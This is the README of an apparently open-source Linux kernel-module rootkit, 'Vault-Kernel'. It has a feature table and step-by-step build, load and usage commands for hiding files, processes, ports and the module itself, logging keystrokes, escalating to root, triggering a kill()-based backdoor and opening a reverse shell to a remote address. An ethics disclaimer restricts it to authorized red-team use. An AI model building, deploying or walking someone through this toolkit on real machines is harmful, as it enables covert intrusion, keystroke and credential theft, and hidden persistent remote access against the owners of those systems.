

<p align="center">
  
</p>

<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
  
</p>

<p align="center">
  
  
  
  
</p>

<br/>

> **⚠️ WARNING — Ético / Legal**
>
> Vault-Kernel es **exclusivamente** para auditorías de seguridad autorizadas, entornos controlados de laboratorio, investigación académica y operaciones de red team con **permiso explícito por escrito**.
>
> El uso no autorizado de este software puede violar leyes locales e internacionales. El propietario y colaboradores **no se responsabilizan** por el uso indebido. Tú eres el único responsable de cumplir con todas las leyes aplicables.
>
> **No hay razón legítima para cargar esto en un sistema que no te pertenece o para el que no tienes autorización.**

<br/>

---

## 📐 Arquitectura



<br/>

---

## 🔥 Features

| Feature | Technique | Stealth |
|---------|-----------|---------|
| **Hide Files/Dirs** | Hook `getdents64`, `openat`, `unlinkat` | 🟢 Invisible to `ls`, `find`, `stat` |
| **Hide Processes** | PID filter in `/proc` read | 🟢 Invisible to `ps`, `top`, `htop` |
| **Hide Ports** | Filter `/proc/net/tcp*`, `/proc/net/udp*` | 🟢 Invisible to `netstat`, `ss` |
| **Kernel Keylogger** | Keyboard notifier chain | 🟢 Captures before X11/Wayland |
| **Reverse Shell** | `call_usermodehelper()` via workqueue | 🟢 No disk touch, no visible fork |
| **Magic Backdoor** | Trigger via `kill()` syscall | 🟡 No open port required |
| **Instant Root** | Direct `cred` manipulation | 🟢 Root any PID instantly |
| **Hide from lsmod** | `list_del` + `kobject_del` | 🟢 Invisible to `lsmod` |
| **Self-Hiding Module** | Removes from kernel module list | 🟢 Cannot be found after load |

<br/>

---

## ⚡ Quick Start

### Prerequisites

```bash
sudo apt install build-essential linux-headers-$(uname -r) golang-go
```

### Build & Load

```bash
# 1. Build kernel module
cd src && make

# 2. Load into kernel
sudo insmod vault_kernel.ko

# 3. Build Go client
cd ../client/go && go build -o vault_kernel ./cmd/vault_kernel/

# 4. Verify it's loaded
sudo ./vault_kernel status
```

### Usage

```bash
# Escalate to root instantly
sudo ./vault_kernel give-root

# Hide a file from ls/find/stat
sudo ./vault_kernel hide-file malicious.sh

# Hide a process from ps/top
sudo ./vault_kernel hide-pid 1337

# Hide a network port from netstat/ss
sudo ./vault_kernel hide-port 4444

# Hide the rootkit from lsmod
sudo ./vault_kernel hide-module

# Spawn reverse shell
sudo ./vault_kernel shell 10.0.0.5:1337

# Read captured keystrokes
sudo ./vault_kernel keylog

# List all hidden objects
sudo ./vault_kernel list
```

<br/>

---

## 📦 Project Structure

```
Vault-Kernel/
├── src/                         # Kernel module (C)
│   ├── main.c                   # init/exit, syscall table find, WP bypass
│   ├── hooking.c                # install/remove hooks + RCU sync
│   ├── file_hide.c              # getdents64/getdents/openat/unlinkat hooks
│   ├── proc_hide.c              # PID hiding + kill hook (magic backdoor)
│   ├── net_hide.c               # /proc/net/* filtering via read hook
│   ├── keylogger.c              # keyboard notifier chain
│   ├── backdoor.c               # reverse shell + magic packet trigger
│   ├── priv_esc.c               # give-root via cred manipulation
│   ├── stealth.c                # hide from lsmod + kobject_del
│   ├── ioctl.c                  # /dev/vault_kernel char device
│   ├── core.h                   # headers + ioctl constants
│   └── Makefile
├── client/
│   ├── vault_kernel_cli.py      # Python CLI (legacy, 14 commands)
│   └── go/                      # Go CLI (primary, single binary)
│       ├── go.mod
│       ├── cmd/vault_kernel/    # Entry point (14 commands)
│       └── internal/vaultkernel/# ioctl wrapper + 14 unit tests
├── payloads/                    # Payload generator (Python)
│   ├── payload.py               # Interactive generator (3 formats)
│   └── builder.sh               # CLI wrapper
├── docker/                      # Docker build + test environment
│   ├── Dockerfile.build
│   ├── docker-compose.yml
│   ├── docker-compose.test.yml
│   ├── build.sh
│   └── test.sh
├── tests/                       # Integration tests
│   └── integration.sh
└── brain/                       # Architecture decision records
    ├── ADR.md
    └── session_*.md
```

<br/>

---

## 🧪 Testing

```bash
# Unit tests (Go, 15 tests)
cd client/go && go test ./... -v

# Integration tests (requires VM with module loaded)
sudo bash tests/integration.sh

# Docker build + test network
bash docker/build.sh              # Compile .ko in container
bash docker/test.sh up            # Start 3-node test network
docker exec -it vault_kernel-attacker bash
bash docker/test.sh down          # Cleanup
```

<br/>

---

## 🧠 Kernel Compatibility

| Kernel Version | Status | Notes |
|----------------|--------|-------|
| **5.4 – 5.6** | ✅ Supported | `kallsyms_lookup_name` exported |
| **5.7 – 5.x** | ✅ Supported | kprobe fallback |
| **6.0 – 6.6+** | ✅ Supported | `class_create()` adapted |
| **WSL2** | ❌ Not supported | No kernel headers |
| **ARM64** | 🚧 Planned | On roadmap |

<br/>

---


## 📚 All CLI Commands

```bash
vault_kernel status              # Check if module is loaded
vault_kernel give-root [pid]     # Grant root to a process
vault_kernel hide-file <name>    # Hide file/directory
vault_kernel unhide-file <name>  # Unhide file/directory
vault_kernel hide-pid <pid>      # Hide process
vault_kernel unhide-pid <pid>    # Unhide process
vault_kernel hide-port <port>    # Hide network port
vault_kernel unhide-port <port>  # Unhide network port
vault_kernel list                # List all hidden objects
vault_kernel shell <ip:port>     # Initiate reverse shell
vault_kernel magic <word>        # Activate backdoor without open port
vault_kernel keylog              # Read captured keystrokes
vault_kernel keylog-clear        # Clear keylogger buffer
vault_kernel hide-module         # Hide rootkit from lsmod
vault_kernel unhide-module       # Make module visible again
```

<br/>

---

## 🤝 Contributing

PRs are welcome. For major changes, open an issue first. Keep everything in the spirit of **authorized security testing education**.

<br/>

---

<p align="center">
  <sub>Built with 🔥 by <a href="https://github.com/Ruby570bocadito">Ruby570bocadito</a></sub>
  <br/>
  <sub>Vault-Kernel — Linux LKM Rootkit Engine v3.0</sub>
</p>
